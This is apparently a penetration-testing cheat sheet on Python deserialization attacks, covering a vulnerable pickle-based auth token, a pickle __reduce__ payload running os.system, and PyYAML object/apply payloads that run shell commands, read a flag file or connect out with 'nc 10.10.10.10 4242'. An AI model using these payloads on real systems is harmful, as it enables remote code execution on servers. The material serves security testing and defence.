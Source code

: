 # Python Deserialization

> Python deserialization is the process of reconstructing Python objects from serialized data, commonly done using formats like JSON, pickle, or YAML. The pickle module is a frequently used tool for this in Python, as it can serialize and deserialize complex Python objects, including custom classes.

## Summary

* [Detection](#detection)
* [Pickle](#pickle)
* [PyYAML](#pyyaml)
* [References](#references)


## Tools

* [j0lt-github/python-deserialization-attack-payload-generator](https://github.com/j0lt-github/python-deserialization-attack-payload-generator)


## Detection

In Python source code, look for these sinks:

* `cPickle.loads`
* `pickle.loads`
* `_pickle.loads`
* `jsonpickle.decode`


## Pickle

The following code is a simple example of using `cPickle` in order to generate an auth_token which is a serialized User object.
:warning: `import cPickle` will only work on Python 2

```python
import cPickle
from base64 import b64encode, b64decode

class User:
    def __init__(self):
        self.username = "anonymous"
        self.password = "anonymous"
        self.rank     = "guest"

h = User()
auth_token = b64encode(cPickle.dumps(h))
print("Your Auth Token : {}").format(auth_token)
```

The vulnerability is introduced when a token is loaded from an user input. 

```python
new_token = raw_input("New Auth Token : ")
token = cPickle.loads(b64decode(new_token))
print "Welcome {}".format(token.username)
```

Python 2.7 documentation clearly states Pickle should never be used with untrusted sources. Let's create a malicious data that will execute arbitrary code on the server.

> The pickle module is not secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.

```python
import cPickle, os
from base64 import b64encode, b64decode

class Evil(object):
    def __reduce__(self):
        return (os.system,("whoami",))

e = Evil()
evil_token = b64encode(cPickle.dumps(e))
print("Your Evil Token : {}").format(evil_token)
```


## PyYAML

YAML deserialization is the process of converting YAML-formatted data back into objects in programming languages like Python, Ruby, or Java. YAML (YAML Ain't Markup Language) is popular for configuration files and data serialization because it is human-readable and supports complex data structures.

```yaml
!!python/object/apply:time.sleep [10]
!!python/object/apply:builtins.range [1, 10, 1]
!!python/object/apply:os.system ["nc 10.10.10.10 4242"]
!!python/object/apply:os.popen ["nc 10.10.10.10 4242"]
!!python/object/new:subprocess [["ls","-ail"]]
!!python/object/new:subprocess.check_output [["ls","-ail"]]
```

```yaml
!!python/object/apply:subprocess.Popen
- ls
```

```yaml
!!python/object/new:str
state: !!python/tuple
- 'print(getattr(open("flag\x2etxt"), "read")())'
- !!python/object/new:Warning
  state:
    update: !!python/name:exec
```

Since PyYaml version 6.0, the default loader for `load` has been switched to SafeLoader mitigating the risks against Remote Code Execution. [PR fixing the vulnerabily](https://github.com/yaml/pyyaml/issues/420)

The vulnerable sinks are now `yaml.unsafe_load` and `yaml.load(input, Loader=yaml.UnsafeLoader)`.

```py
with open('exploit_unsafeloader.yml') as file:
        data = yaml.load(file,Loader=yaml.UnsafeLoader)
```


## References

- [CVE-2019-20477 - 0Day YAML Deserialization Attack on PyYAML version <= 5.1.2 - Manmeet Singh (@_j0lt) - June 21, 2020](https://thej0lt.com/2020/06/21/cve-2019-20477-0day-yaml-deserialization-attack-on-pyyaml-version/)
- [Exploiting misuse of Python's "pickle" - Nelson Elhage - March 20, 2011](https://blog.nelhage.com/2011/03/exploiting-pickle/)
- [Python Yaml Deserialization - HackTricks - July 19, 2024](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization)
- [PyYAML Documentation - PyYAML - April 29, 2006](https://pyyaml.org/wiki/PyYAMLDocumentation)
- [YAML Deserialization Attack in Python - Manmeet Singh & Ashish Kukret - November 13, 2021](https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf)